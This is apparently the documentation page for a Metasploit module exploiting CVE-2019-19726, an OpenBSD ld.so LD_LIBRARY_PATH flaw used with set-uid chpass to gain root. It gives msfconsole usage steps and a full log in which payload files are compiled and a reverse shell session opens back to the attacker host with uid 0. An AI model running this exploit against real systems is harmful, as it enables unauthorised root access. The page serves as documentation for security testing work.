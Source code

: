 ## Description

  This module exploits a vulnerability in the OpenBSD `ld.so`
  dynamic loader (CVE-2019-19726).

  The `_dl_getenv()` function fails to reset the `LD_LIBRARY_PATH`
  environment variable when set with approximately `ARG_MAX` colons.

  This can be abused to load `libutil.so` from an untrusted path,
  using `LD_LIBRARY_PATH` in combination with the `chpass` set-uid
  executable, resulting in privileged code execution.


## Vulnerable Application

  This module has been tested successfully on:

  * OpenBSD 6.1 (amd64)
  * OpenBSD 6.6 (amd64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/openbsd/local/dynamic_loader_chpass_privesc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **CHPASS_PATH**

  Path to chpass (default: `/usr/bin/chpass`)


## Scenarios

### OpenBSD 6.1 GENERIC#19 amd64

  ```
  msf > use exploit/openbsd/local/dynamic_loader_chpass_privesc 
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > set verbose true
  verbose => true
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > set session 1
  session => 1
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > check

  [+] Patch 013_ldso is not present
  [+] cc is installed
  [*] The service is running, but could not be validated.
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(openbsd/local/dynamic_loader_chpass_privesc) > run

  [*] Started reverse TCP double handler on 172.16.191.165:4444 
  [+] Patch 013_ldso is not present
  [+] cc is installed
  [+] Found libutil.so name: libutil.so.12.1
  [*] Writing '/tmp/.86MXG.c' (316 bytes) ...
  [*] Max line length is 4096
  [*] Writing 316 bytes in 1 chunks of 1145 bytes (octal-encoded), using printf
  [*] Compiling /tmp/libutil.so.12.1 ...
  [*] Writing '/tmp/.DRbqHJ.c' (602 bytes) ...
  [*] Max line length is 4096
  [*] Writing 602 bytes in 1 chunks of 2170 bytes (octal-encoded), using printf
  [*] Compiling /tmp/.DRbqHJ ...
  [*] Writing '/tmp/.2bowjnW1' (139 bytes) ...
  [*] Max line length is 4096
  [*] Writing 139 bytes in 1 chunks of 470 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo Y6H5kRiGDyQjzQKI;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket B
  [*] B: "Y6H5kRiGDyQjzQKI\r\n"
  [*] Matching...
  [*] A is input...
  [*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.205:43611) at 2019-12-13 04:03:22 -0500
  [+] Deleted /tmp/.86MXG.c
  [+] Deleted /tmp/libutil.so.12.1
  [+] Deleted /tmp/.DRbqHJ.c
  [+] Deleted /tmp/.DRbqHJ
  [+] Deleted /tmp/.2bowjnW1

  id
  uid=0(root) gid=0(wheel) groups=1001(test)
  uname -a
  OpenBSD openbsd-6-1.localdomain 6.1 GENERIC#19 amd64

  ```

